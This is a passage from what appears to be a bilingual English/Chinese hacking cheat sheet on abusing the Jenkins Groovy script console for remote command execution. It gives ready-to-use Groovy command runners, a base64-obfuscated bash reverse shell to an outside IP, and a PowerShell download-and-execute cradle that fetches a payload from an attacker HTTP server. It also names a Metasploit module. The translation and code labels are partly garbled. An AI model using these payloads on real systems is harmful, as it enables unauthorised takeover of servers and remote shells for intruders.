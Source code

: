 您可以使用：`cmd.exe /c dir执行命令

In **linux** you can do: **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ (triple double quotes) to execute the payload.

如果您需要在文本中使用引号和单语引号。 您可以使用_“”“有效载荷”“ _（三重引号）来执行有效载荷。

**Another useful groovy script** is (replace \[INSERT COMMAND]):

**另一个有用的groovy脚本**是（替换\ [insert命令]）：

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in linux

### Linux中的反向外壳

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in windows

### Windows中的反向外壳

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

您可以使用PS反向外壳准备HTTP服务器，并使用Jeking下载并执行它：

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### MSF exploit

You can use MSF to get a reverse shell:

您可以使用MSF获得反向外壳：

```
msf> use exploit/multi/http/jenkins_script_console
```

